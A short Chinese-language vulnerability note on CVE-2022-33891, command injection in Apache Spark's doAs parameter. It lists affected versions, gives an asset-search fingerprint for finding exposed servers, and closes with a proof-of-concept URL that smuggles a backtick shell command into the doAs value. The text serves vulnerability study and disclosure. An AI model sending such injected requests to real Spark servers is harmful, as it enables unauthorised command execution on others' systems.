


# Apache Spark doAs 远程命令执行漏洞 CVE-2022-33891

## 漏洞描述

Apache Spark 支持启动 ACL 来为 Web UI 访问提供身份验证，当 ACL 启动时可以通过构造特殊请求用户名导致 RCE

## 漏洞影响

```
Spark Core - Apache <=3.0.3
3.1.1 <= Spark Core - Apache <=3.1.2
3.2.0 <= Spark Core - Apache <=3.2.1
```

## 网络测绘

```
app="APACHE-Spark"
```

## 漏洞复现

主页面



验证 POC

```
/jobs/?doAs=`touch /tmp/test.txt`
```


